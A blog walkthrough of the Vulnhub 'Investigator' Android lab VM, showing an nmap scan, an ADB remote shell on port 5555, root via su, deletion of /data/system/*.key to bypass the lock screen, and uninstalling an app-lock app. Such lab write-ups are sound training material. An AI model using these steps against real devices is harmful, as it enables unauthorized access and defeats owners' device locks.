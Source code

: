 ```yaml
---
date: 2020-07-21 01:20:12
layout: post
title: "Investigator Vulnhub Walkthrough"
subtitle:
description: Investigator:1 is a boot2root VM from Vulnhub. This is an android machine and its difficulty is easy.
image: /assets/img/uploads/investigator/detective.png
optimized_image: /assets/img/uploads/investigator/detective-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: investigator, investigator 1 walkthrough, investigator writeup, investigator vulnhub walkthrough, vulnhub investigator, infosec articles, vulnhub investigator walkthrough 
---
```


Today I will be sharing a walkthrough of Investigator machine available on Vulnhub. This is an android machine and rated for absolute beginners. This includes connecting to the VM via adb and then bypassing its security to read our flag. Let's Begin!

## Enumeration

I started the enumeration by running a port scan with Nmap, checking default scripts.

```r
root@kali:~# nmap -sC -sV -oN nmap/initial 192.168.1.9

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
|_http-title: Welcome To  UnderGround Sector
MAC Address: 08:00:27:B3:57:0D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.06 seconds
```
Port 8080 was running a php webserver. Looking at it in the browser, there was some information but it was not clear. 

<center><br><br>
<img src="/assets/img/uploads/investigator/port8080.png">
</center>

I started a gobuster scan in the background but that didn't give me any interesting directory. Then I moved to the next port 5555 for further enumeration. For connecting to this port you need to install <b>adb.</b> You can install it by using the following command:

```r
$ sudo apt install adb
```

After installing, we can connect the target machine to adb by using the <b>adb connect</b> command followed by the IP of the machine and we can also see the connected devices using <b>adb devices</b> command.

```r
root@kali:~# adb connect 192.168.1.9
connected to 192.168.1.9:5555

root@kali:~/Documents/vulnhub/investigator# adb devices
List of devices attached
192.168.1.9:5555        device
```
Once the device is connected, we can open a shell on the target machine via adb using <b> adb shell</b> command. We can then pivot to root using <b>su.</b>

```r
root@kali:~# adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)

@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ #
```

Now we can read our first flag present in the home directory.

```r
uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard
                       

You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
```

## Final Flag

Next, I tried to use the android machine manually, The machine displays a lock screen and asks us to enter a pin. I tried entering the pin 6666666666 and 259148637 but none of them worked.

<center><br><br>
<img src="/assets/img/uploads/investigator/lock-screen.png">
</center>

We can bypass this login screen using adb. For this we need to delete the login key present in the system directory.

```r
uid=0(root) gid=0(root)@x86:/data/root # rm /data/system/*.key
uid=0(root) gid=0(root)@x86:/data/root # exit
```

Now when you restart the machine, the login screen does not appear. We can now access all apps inside the phone, but most of them are still protected by a third party app lock.

<center><br><br>
<img src="/assets/img/uploads/investigator/app-lock.png">
</center>

We need to use adb again to remove this app. Use the <b>adb uninstall</b> command followed by the app name to uninstall any app. In this case, I'll be removing the app lock.

```r
root@kali:~# adb uninstall com.martianmode.applock
```

Once the app lock is uninstalled, restart the machine, Now it will not ask for any password and we can read the final flag in the Messages App.

<center><br><br>
<img src="/assets/img/uploads/investigator/flag.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> 

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/wuzx">wuzx.</a>